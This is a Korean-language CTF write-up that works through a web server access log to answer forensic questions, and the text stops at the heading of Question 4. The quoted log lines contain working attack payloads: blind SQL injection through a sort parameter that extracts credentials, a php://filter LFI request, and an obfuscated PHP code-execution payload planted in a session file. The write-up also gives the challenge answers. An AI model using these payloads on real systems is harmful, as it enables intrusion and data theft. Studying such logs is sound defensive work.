 ## weblog-1
---

주어진 파일에 보면 access 파일이 있는데 로그가 기록되어 있다.

이를 토대로 5개의 문제를 풀면 된다.

<br><br>

### Question 1
---

```
Q: 공격자에게 탈취된 admin 계정의 PW를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

로그를 보면 login.php에서 시도를 하다가 실패해서 board.php로 이동한다.

이동한 다음 search 매개변수에 값을 넣어서 시도하다가 안되서 sort 매개변수로 시도를 한다.

그런데 sort 매개변수는 값을 그대로 받아들이기 때문에 공격자는 여기서 database명을 뽑아내려고 시도한다.

공격자는 if문을 통해 query가 true이면 문법 에러를 일으켜서 확인한다. 

500 에러가 일어남을 확인할 수 있다.

<br>

아래의 로그는 database 명의 첫 글자인 s를 알아낸 로그 기록이다. 

database 명은 simple_board임을 config.php에서 확인할 수 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:11:09 +0000] "GET /board.php?sort=if(ord(substr(database(),%201,1))=115,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

그 다음 시간 상으로 ```[02/Jun/2020:09:21:34 +0000]``` 때 기록된 로그부터는 information_schema.columns 에서 테이블, 컬럼 명을 추출하려는 로그가 기록되어 있다.

공격자가 첫 글자를 추출했다. 

<br>

```
172.17.0.1 - - [02/Jun/2020:09:22:01 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%201,1))=98,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

테이블명의 첫 글자는 b이다.

다른 코드를 보면은 테이블명이 board, 컬럼 이름이 idx, title, contents, writer가 있음을 알 수 있다.

공격자가 뽑아낸 테이블, 컬럼명은 아래와 같다.

```board:idx,board:title,board:contents,board:writer,users:idx,users:username,users:password,users:level```

<br>

다음은 ```[02/Jun/2020:09:50:05 +0000]``` 이 시간에 기록된 로그부터는 users 테이블의 user,password 컬럼 값들을 추출하는 로그가 기록되어 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:50:05 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(username,0x3a,password)%20from%20users),%201,1))=32,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841
```

<br>

여기서 성공한 로그(500 에러가 난 로그)를 살펴보면 admin의 비밀번호는 ```Th1s_1s_Adm1n_P@SS```

<br><br>

### Question 2
---

```
Q: 공격자가 config.php 코드를 추출하는데 사용한 페이로드를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

거의 밑부분의 로그를 보면 아래와 같은 로그가 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:54:18 +0000] "GET /admin/?page=php://filter/convert.base64-encode/resource=../config.php HTTP/1.1" 200 986 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

응답코드를 보면 200이다. 

따라서 답은 ```php://filter/convert.base64-encode/resource=../config.php``` 이다.

<br><br>

### Question 3
---

```
Q: LFI 취약점을 통해 코드 실행 공격에 사용된 파일의 전체 경로를 입력해주세요. (파일 이름을 포함한 전체 경로)
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

로그를 보면 아래와 같은 로그들이 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:55:16 +0000] "GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

```
172.17.0.1 - - [02/Jun/2020:09:55:39 +0000] "GET /admin/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732 HTTP/1.1" 200 735 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

```/admin/memo.php```에 가보면 memo라른 세션의 값을 memo 매개변수를 통해 입력받는다. 

따라서 답은 ```/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732```

<br><br>

### Question 4
---

```
Q: 생성된 웹쉘의 경로를 입력해주세요. (파일 이름을 포함한 전체 경로)
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

